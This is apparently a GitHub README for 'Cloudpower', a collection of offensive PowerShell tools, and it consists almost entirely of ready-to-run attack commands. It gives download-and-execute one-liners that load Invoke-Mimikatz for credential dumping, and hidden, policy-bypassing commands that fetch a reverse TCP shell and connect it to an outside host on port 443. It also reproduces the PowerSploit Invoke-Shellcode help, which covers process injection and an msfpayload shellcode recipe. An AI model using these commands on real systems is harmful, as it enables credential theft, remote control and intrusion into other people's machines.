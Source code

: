 # Cloudpower
test for interest


# Help for Invoke-mimi:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-mimi.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
It's a reverse_tcp payload, please set a listener, then do as below:

winx86:

powrshell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

# Help for Invoke-Shellcode:
.SYNOPSIS

Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.
PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION

Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre
PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):
msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 
Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID

Process ID of the process you want to inject shellcode into.

.PARAMETER Shellcode

Specifies an optional shellcode passed in as a byte array

.PARAMETER Force

Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

.EXAMPLE

 C:\PS> Invoke-Shellcode -ProcessId 4274

-----------
Inject shellcode into process ID 4274.

.EXAMPLE

C:\PS> Invoke-Shellcode

-----------
Inject shellcode into the running instance of PowerShell.

.EXAMPLE

C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)

-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
